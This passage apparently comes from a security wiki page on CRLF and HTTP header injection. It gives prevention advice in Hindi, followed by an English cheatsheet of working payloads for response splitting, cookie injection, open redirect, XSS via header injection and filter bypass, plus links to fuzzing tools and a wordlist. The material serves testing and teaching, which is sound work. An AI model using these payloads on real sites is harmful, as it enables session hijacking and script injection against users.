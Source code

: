 ### How to Prevent CRLF / HTTP Header Injections in Web Applications

CRLF (Carriage Return and Line Feed) या HTTP हेडर इंजेक्शन के जोखिमों को कम करने के लिए, निम्नलिखित रणनीतियों की सिफारिश की जाती है:

1. **Response Headers में सीधे उपयोगकर्ता इनपुट से बचें:** सबसे सुरक्षित दृष्टिकोण यह है कि उपयोगकर्ता द्वारा प्रदान किए गए इनपुट को सीधे प्रतिक्रिया हेडर में शामिल करने से बचें।
2. **विशेष वर्णों को एन्कोड करें:** यदि सीधे उपयोगकर्ता इनपुट से बचना संभव नहीं है, तो सुनिश्चित करें कि CR (Carriage Return) और LF (Line Feed) जैसे विशेष वर्णों को एन्कोड करने के लिए एक फ़ंक्शन का उपयोग करें। यह प्रथा CRLF इंजेक्शन की संभावना को रोकती है।
3. **प्रोग्रामिंग भाषा को अपडेट करें:** अपने वेब अनुप्रयोगों में उपयोग की जाने वाली प्रोग्रामिंग भाषा को नियमित रूप से नवीनतम संस्करण में अपडेट करें। एक ऐसे संस्करण का चयन करें जो HTTP हेडर सेट करने वाले फ़ंक्शनों के भीतर CR और LF वर्णों के इंजेक्शन की अनुमति नहीं देता है।

### CHEATSHEET

[Cheatsheet from here](https://twitter.com/NinadMishra5/status/1650080604174667777)
```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
## Automatic Tools

* [https://github.com/Raghavd3v/CRLFsuite](https://github.com/Raghavd3v/CRLFsuite)
* [https://github.com/dwisiswant0/crlfuzz](https://github.com/dwisiswant0/crlfuzz)

## Brute-Force Detection List

* [https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/crlf.txt](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/crlf.txt)

## References
